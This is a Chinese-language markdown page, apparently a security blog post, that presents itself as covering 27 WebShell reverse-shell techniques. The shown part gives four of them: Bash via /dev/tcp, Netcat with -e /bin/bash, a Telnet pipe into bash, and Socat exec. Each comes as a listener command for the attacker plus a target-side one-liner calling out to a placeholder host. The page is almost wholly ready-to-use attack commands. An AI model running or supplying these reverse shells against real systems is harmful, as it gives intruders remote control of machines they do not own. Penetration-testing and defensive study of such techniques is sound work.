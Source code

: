 ```yaml
---
date: 2021-09-01
title: 全面解析 27 种 WebShell 反弹技术
author: [SecCMD]
description: >
  本文详细介绍了多达 27 种 WebShell 反弹技术，涵盖 Bash、Netcat、Python、Java 等多种编程语言实现的反弹方法，还包括利用系统工具、漏洞、计划任务等特殊途径进行反弹的操作。同时，为深入探索相关知识，提供了 aspx、ascx、ashx、asmx 等文件的技术研究链接。无论是网络安全从业者提升渗透测试技能，还是技术爱好者深入了解 WebShell 原理，本文都能提供丰富且实用的内容。
categories: 攻防兼备
tags:
  - 网络安全
  - WebShell
  - 系统安全
---
```


# 全面解析 27 种 WebShell 反弹技术

### 1. Bash反弹

```text
# 攻击者主机上执行监听
nc -lvvp port
# 目标主机上执行
bash -i >& /dev/tcp/x.x.x.x/port 0>&1
```

### 2. Netcat反弹

```text
# 攻击者主机上执行监听
nc -lvvp port
# 目标主机上执行
nc -e /bin/bash x.x.x.x port
```

### 3. Telnet反弹

```text
# 攻击者主机上打开两个终端分别执行监听
nc -lvvp 4444
nc -lvvp 5555
# 目标主机中执行
telnet x.x.x.x 4444 | /bin/bash | telnet x.x.x.x 5555
```

### 4. Socat反弹

```text
# 攻击者主机上执行监听
socat TCP-LISTEN:port,fork -
# 目标主机上执行
socat tcp-connect:x.x.x.x:port exec:'bash -li',pty,stderr,setsid,sigint,sane
```
